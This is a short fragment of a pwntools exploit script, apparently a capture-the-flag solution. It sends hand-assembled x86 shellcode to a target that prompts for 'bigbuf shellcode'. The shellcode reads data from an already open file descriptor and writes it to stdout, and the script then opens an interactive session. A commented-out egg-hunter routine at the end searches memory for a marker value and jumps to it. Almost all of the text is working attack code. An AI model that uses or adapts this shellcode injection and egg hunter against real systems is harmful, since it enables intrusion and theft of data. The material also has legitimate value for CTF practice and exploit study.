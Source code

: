	p.recvuntil("bigbuf shellcode:")

	payload = asm("""

	    push 0x13371337
	    push 0x13371337

	    mov eax, 0x3
	    mov ebx, 0x3e8
	    mov ecx, esp
	    mov edx, 0x3e8

	    int 0x80

	    mov edx, eax
	    mov eax, 0x4
	    mov ebx, 0x1
	    mov ecx, esp

	    int 0x80
	    
	    """)

	p.sendline(payload)

	p.interactive()

	# 	lea ecx, [esp]
	# 
	# inc:
	# 	inc ecx
	#
	# test:
	# 	mov eax, 0x13371337
	#	mov edi, ecx
	#
	#	scasd
	#	jnz inc
	#
	#	scasd
	#	jnz inc
	#
	#	jmp edi
